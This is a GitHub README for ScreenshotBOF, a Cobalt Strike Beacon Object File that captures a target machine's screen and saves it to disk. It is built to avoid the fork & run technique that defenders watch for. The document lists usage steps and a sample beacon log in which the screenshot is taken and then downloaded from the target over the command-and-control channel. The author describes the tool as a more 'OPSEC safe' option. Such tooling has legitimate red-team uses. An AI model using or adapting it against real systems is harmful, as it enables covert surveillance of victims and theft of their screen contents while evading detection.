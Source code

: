 # ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot saved to disk as a file.

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof
3. Download the screenshot from the target
```
beacon> screenshot_bof
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 3411 bytes
[+] received output:
[*] Tasked beacon to printscreen and save to disk
[+] received output:
[+] PrintScreen saved to bitmap...
[+] received output:
[+] Printscreen bitmap saved to screenshot.bmp
beacon> download screenshot.bmp
[*] Tasked beacon to download screenshot.bmp
[+] host called home, sent: 22 bytes
[*] started download of C:\screenshot.bmp (12441668 bytes)
[*] download of screenshot.bmp is complete
```

## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious
- in memory downloading of screenshots is planned to be added
- the filename can be changed in the source code.

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Made using https://github.com/securifybv/Visual-Studio-BOF-template